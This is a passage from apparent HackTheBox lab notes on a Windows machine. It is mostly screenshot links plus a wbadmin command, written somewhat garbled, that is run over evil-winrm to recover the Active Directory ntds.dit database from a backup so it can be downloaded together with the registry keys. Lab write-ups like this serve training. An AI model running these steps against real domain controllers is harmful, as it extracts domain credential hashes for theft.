 ![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110204110.png)

`10/02/2020-03:51`

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110204208.png)

Execute this on evil-winrm

`echo Y wbadmin start recovery -version:10/02/2020-03:51 -itemtype:file -items:C: windows\ntds\ntds.dit - recoverytarget:C: -notrestoreacl`

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110204324.png)

Got `ntds.dit` ! Download it to attack box.

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110204408.png)
Save and download the reg keys

